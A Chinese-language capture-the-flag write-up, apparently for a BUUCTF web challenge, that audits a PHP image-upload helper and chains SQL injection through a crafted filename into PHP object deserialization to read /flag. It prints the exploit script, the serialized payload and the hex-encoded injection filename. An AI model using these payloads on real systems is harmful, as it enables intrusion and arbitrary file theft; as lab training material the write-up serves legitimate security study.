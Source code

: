 知识点:

1. 信息泄露
2. sql注入
3. 反序列化




1.MIME类型检测绕过
设置为image/jpeg，无果

2.黑名单绕过
尝试设置后缀如php3,php5,无果

3.%00截断
尝试，无果。

4.应用程序解析绕过

.php.jpg。上传成功！



发现怎么后缀是jpg，然后通过路径访问的话报404，这里我就开始奇怪了，难道真的不是文件上传，毕竟就算上传成功也需要爆出路径才能利用，但是这明显是假路径。

思考其他的方向，既然buu给了github源码，那就看看源码吧，看了看，主要逻辑代码在helper.php

***1\***|***2\*****代码审计**



```
<?php
class helper {
    protected $folder = "pic/";
    protected $ifview = False;
    protected $config = "config.txt";
    // The function is not yet perfect, it is not open yet.

    public function upload($input="file")
    {
        $fileinfo = $this->getfile($input);
        $array = array();
        $array["title"] = $fileinfo['title'];
        $array["filename"] = $fileinfo['filename'];
        $array["ext"] = $fileinfo['ext'];
        $array["path"] = $fileinfo['path'];
        $img_ext = getimagesize($_FILES[$input]["tmp_name"]);
        $my_ext = array("width"=>$img_ext[0],"height"=>$img_ext[1]);
        $array["attr"] = serialize($my_ext);
        $id = $this->save($array);
        if ($id == 0){
            die("Something wrong!");
        }
        echo "<br>";
        echo "<p>Your images is uploaded successfully. And your image's id is $id.</p>";
    }

    public function getfile($input)
    {
        if(isset($input)){
            $rs = $this->check($_FILES[$input]);
        }
        return $rs;
    }

    public function check($info)
    {
        $basename = substr(md5(time().uniqid()),9,16);
        $filename = $info["name"];
        $ext = substr(strrchr($filename, '.'), 1);
        $cate_exts = array("jpg","gif","png","jpeg");
        if(!in_array($ext,$cate_exts)){
            die("<p>Please upload the correct image file!!!</p>");
        }
        $title = str_replace(".".$ext,'',$filename);
        return array('title'=>$title,'filename'=>$basename.".".$ext,'ext'=>$ext,'path'=>$this->folder.$basename.".".$ext);
    }

    public function save($data)
    {
        if(!$data || !is_array($data)){
            die("Something wrong!");
        }
        $id = $this->insert_array($data);
        return $id;
    }

    public function insert_array($data)
    {
        $con = mysqli_connect("127.0.0.1","r00t","r00t","pic_base");
        if (mysqli_connect_errno($con))
        {
            die("Connect MySQL Fail:".mysqli_connect_error());
        }
        $sql_fields = array();
        $sql_val = array();
        foreach($data as $key=>$value){
            $key_temp = str_replace(chr(0).'*'.chr(0), '\0\0\0', $key);
            $value_temp = str_replace(chr(0).'*'.chr(0), '\0\0\0', $value);
            $sql_fields[] = "`".$key_temp."`";
            $sql_val[] = "'".$value_temp."'";
        }
        $sql = "INSERT INTO images (".(implode(",",$sql_fields)).") VALUES(".(implode(",",$sql_val)).")";
        mysqli_query($con, $sql);
        $id = mysqli_insert_id($con);
        mysqli_close($con);
        return $id;
    }

    public function view_files($path){
        if ($this->ifview == False){
            return False;
            //The function is not yet perfect, it is not open yet.
        }
        $content = file_get_contents($path);
        echo $content;
    }

    function __destruct(){
        # Read some config html
        $this->view_files($this->config);
    }
}

?>
```

这里懂了两个文件的内容
**upload.php：**
上传页面，包括了helper.php ，序列化图片的内容并存在数据库中。

**helper.php：**
反序列化数据库中的内容，输出图片内容

所以我们的核心思路：
**将危险代码通过序列化存在数据库中，在反序列化的过程后，通过某些函数执行危险代码**

这里一定可以存入数据库，否则我们在前端无法利用，所以数据库的语句一定有漏洞，只要想好怎么利用就可以

大概看看代码，在view_files 函数里存在文件读取，那么就按照他的来，

**构造ifview==True,content=/flag**

***1\***|***3\*****编写exp**



```
<?php
class helper {
    protected $ifview = True;
    protected $config = "/flag";

}
$a = new helper();
echo serialize($a);

?>
```

序列化得出
`O:6:"helper":2:{s:9:"*ifview";b:1;s:9:"*config";s:5:"/flag";}`

因为两个属性是public，所以字段名前面加上\0*\0的前缀

***1\***|***4\*****sql注入**

然后思路是想看到sql语句，其中应该可以插入危险代码，导致sql注入。那么我们先找到SQL语句:

```
INSERT INTO images (".(implode(",",$sql_fields)).") VALUES(".(implode(",",$sql_val)).")
```

追溯函数:

1. `implode(",",$sql_fields:`
   用逗号组合sql_fields
2. `$sql_fields[] = "`".$key_temp."`";`
   反引号中间包含str_replace(chr(0).'*'.chr(0), '\0\0\0', $key);
3. `$key_temp = str_replace(chr(0).'*'.chr(0), '\0\0\0', $key);`
   替换后的key

4.`foreach($data as $key=>$value)`
data的键数组

看看pop链：
insert_array->save->upload

最终也就是array数组中的内容，即是我们上传的图片的各项参数。那我们能控制的也就是图片的图片名，然后发现title就是去掉后缀的filename。看到check函数返回的内容就懂了。

```
return array('title'=>$title,'filename'=>$basename.".".$ext,'ext'=>$ext,'path'=>$this->folder.$basename.".".$ext);
```

我们按照此格式上传刚刚序列化后的内容，该代码先经过序列化，然后存入数据库中，后端将其从数据库中取出，反序列化，触发析构函数，读取flag内容

然后看到代码中在序列化和反序列化时对protected属性进行了过滤，所以我们不能直接传入\0*\0的前缀。需要按照他的传入\0\0\0，经过处理后我们为需要的内容。

```
O:6:"helper":2:{s:9:"\0\0\0ifview";b:1;s:9:"\0\0\0config";s:5:"/flag";}
```

因为不能使用双引号，所以我们hex。

构造文件名：
`filename="a','1','1','1',0x4f3a363a2268656c706572223a323a7b733a393a22002a00696676696577223b623a313b733a393a22002a00636f6e666967223b733a353a222f666c6167223b7d)#.png"`

（需要用#注释掉后面的内容，当然不用#注释，按照他的格式再往后核实也可以）

burpsuite抓包，先传一个图片，更改内容为上面的值，上传成功，访问show.php，获取flag

***1\***|***5\*****总结思路**

- 源码泄露，获得源码
- 代码审计，一个序列化传进数据库，一个反序列化从数据库取出
- 构造危险代码->匹配成功传入数据库->反序列化出内容->通过相关函数获取flag
